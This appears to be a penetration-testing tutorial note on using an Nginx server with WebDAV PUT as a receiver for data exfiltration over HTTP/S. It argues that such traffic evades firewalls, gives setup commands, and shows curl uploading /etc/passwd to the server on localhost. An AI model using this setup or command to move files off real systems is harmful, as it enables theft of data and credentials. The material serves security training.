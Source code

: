 
## **Why HTTP/S for Exfiltration**

- Most firewalls allow HTTP/S traffic.
    
- HTTPS encrypts content (stealthy and secure).
    
- Easy to use with `curl`, `wget`, or Python scripts.
    
- Avoids suspicious protocols.
    

---

## **Step-by-Step: Secure Uploads**

### **1. Create Upload Directory**

```bash
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

_Files will be saved here._

---

### **2. Set Permissions**

```bash
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

_`www-data` is the default Nginx user._

---

### **3. Configure Nginx**

```bash
sudo nano /etc/nginx/sites-available/upload.conf
```

Paste:

```nginx
server {
    listen 9001;

    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

_Use port `9001` to avoid conflicts._

---

### **4. Enable the Site**

```bash
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

---

### **5. Start/Restart Nginx**

```bash
sudo systemctl restart nginx.service
```

---

### **6. Fix Port Conflicts (if needed)**

Check active ports:

```bash
sudo ss -lnpt | grep 80
```

Remove default config:

```bash
sudo rm /etc/nginx/sites-enabled/default
sudo systemctl restart nginx.service
```

---

### **7. Upload a File**

Example: upload `/etc/passwd` as `users.txt`

```bash
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

Verify:

```bash
sudo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt
```

---

### **8. Directory Listing**

- Nginx **blocks directory listing by default**.
    
- Browsing:
    
    ```
    http://localhost:9001/SecretUploadDirectory
    ```
    
    → returns **403 Forbidden** (good).
    

---

## **Why Not Apache**

- Easier to misconfigure.
    
- PHP shells (`.php`) might auto-execute.
    
- Directory listing often enabled by default.
    

---
